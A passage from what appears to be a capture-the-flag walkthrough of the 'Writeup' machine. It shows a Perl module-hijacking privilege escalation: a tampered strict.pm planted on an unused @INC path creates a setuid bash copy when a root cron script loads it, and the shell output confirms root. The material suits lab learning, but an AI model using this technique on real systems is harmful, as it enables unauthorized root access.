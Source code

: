 ## **Alternate Escalation Path**
Although I did not think of this, 0xdf's walkthrough tells us how we could have exploited the cleanup script that was being run every minute. 

When a Perl script is run, Perl attempts to load modules required for successful execution. If we can modify any of the modules and add our code, we can possibly elevate our privilege. 

Following the steps, we find that the configured "path" value for Perl contains two directories that do not exist which we can use to our advantage.

```
jkr@writeup:~$ perl -MData::Dumper -e 'print Dumper \%INC'
$VAR1 = {
          'constant.pm' => '/usr/share/perl/5.24/constant.pm',
          'XSLoader.pm' => '/usr/share/perl/5.24/XSLoader.pm',
          'warnings/register.pm' => '/usr/share/perl/5.24/warnings/register.pm',
          'strict.pm' => '/usr/share/perl/5.24/strict.pm',
          'Carp.pm' => '/usr/share/perl/5.24/Carp.pm',
          '/etc/perl/sitecustomize.pl' => '/etc/perl/sitecustomize.pl',
          'overloading.pm' => '/usr/share/perl/5.24/overloading.pm',
          'Data/Dumper.pm' => '/usr/lib/x86_64-linux-gnu/perl/5.24/Data/Dumper.pm',
          'bytes.pm' => '/usr/share/perl/5.24/bytes.pm',
          'warnings.pm' => '/usr/share/perl/5.24/warnings.pm',
          'Exporter.pm' => '/usr/share/perl/5.24/Exporter.pm',
          'overload.pm' => '/usr/share/perl/5.24/overload.pm'
        };
jkr@writeup:~$ perl -e 'print join(":",@INC)'
/etc/perl:/usr/local/lib/x86_64-linux-gnu/perl/5.24.1:/usr/local/share/perl/5.24.1:/usr/lib/x86_64-linux-gnu/perl5/5.24:/usr/share/perl5:/usr/lib/x86_64-linux-gnu/perl/5.24:/usr/share/perl/5.24:/usr/local/lib/site_perl:/usr/lib/x86_64-linux-gnu/perl-basejkr@writeup:~$ 
jkr@writeup:~$ perl -e 'print join("\n",@INC)' | while read dir; do ls -ld $dir; done
drwxr-xr-x 4 root root 4096 Apr 19  2019 /etc/perl
ls: cannot access '/usr/local/lib/x86_64-linux-gnu/perl/5.24.1': No such file or directory
ls: cannot access '/usr/local/share/perl/5.24.1': No such file or directory
drwxr-xr-x 11 root root 4096 Apr 19  2019 /usr/lib/x86_64-linux-gnu/perl5/5.24
drwxr-xr-x 16 root root 4096 Apr 19  2019 /usr/share/perl5
lrwxrwxrwx 1 root root 6 Nov 29  2018 /usr/lib/x86_64-linux-gnu/perl/5.24 -> 5.24.1
lrwxrwxrwx 1 root root 6 Nov 29  2018 /usr/share/perl/5.24 -> 5.24.1
ls: cannot access '/usr/local/lib/site_perl': No such file or directory
jkr@writeup:~$ mkdir -p /usr/local/lib/x86_64-linux-gnu/perl/5.24.1
jkr@writeup:~$ cp /usr/share/perl/5.24/strict.pm /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/
jkr@writeup:~$ nano /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/strict.pm 
jkr@writeup:~$ diff /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/strict.pm /usr/share/perl/5.24/strict.pm
11d10
<     system "cp /bin/bash /tmp/bash; chmod u+s /tmp/bash";
```

With our malicious module in place, we just need to wait for a minute. The next time the cleanup script runs, the copy of /bin/bash is created in the /tmp folder and can be run to gain root privilege.

```
jkr@writeup:~$ ls -l /tmp/bash 
-rwsr-xr-x 1 root root 1099016 Jul 28 09:44 /tmp/bash
jkr@writeup:~$ /tmp/bash -p
bash-4.4# id
uid=1000(jkr) gid=1000(jkr) euid=0(root) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
bash-4.4# whoami
root
```
### ***Note***
```
```